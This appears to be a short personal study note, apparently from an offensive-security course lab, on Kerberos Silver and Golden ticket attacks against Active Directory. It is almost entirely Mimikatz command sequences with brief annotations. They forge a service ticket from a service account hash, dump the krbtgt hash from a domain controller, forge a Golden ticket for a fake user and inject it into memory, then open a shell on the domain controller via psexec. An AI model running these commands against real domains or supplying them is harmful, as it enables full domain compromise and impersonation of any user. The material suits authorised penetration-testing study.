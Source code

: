 # Silver / Golden

### Silver TGS with service acct pwd / ntlm hash to access resrc

access service as SID user with fake group membership from app perspective

{% code overflow="wrap" %}
```
kerberos::purge
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
(/user username; /domain domain name; /sid domain sid from whoami /user; /target full serivce host name;  /service:HTTP service type eg:MSSQLSvc; /rc4 pwd hash of service acct; /ptt mem inject)
#need hash the cleartxt if only get cleartxt pwd
```
{% endcode %}

### Golden TGT with krbtgt hash to access DC with fake priv

need have access to domain admin / dc ser admin ; run mimi as dc admin

{% code overflow="wrap" %}
```
privilege::debug
lsadump::lsa /patch
#to dump krbtgt NTML hash

#to create golden tix: (no need admin, can do on non-domain computer)
kerberos::purge
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
(username as fakeuser would be allowed as DC trusts anything correctly encryted with krbtgt pwd hash)

misc::cmd 
psexec.exe \\dc01 cmd.exe (or use C:\Users\Public\shell.exe if placed on dc01)
```
{% endcode %}

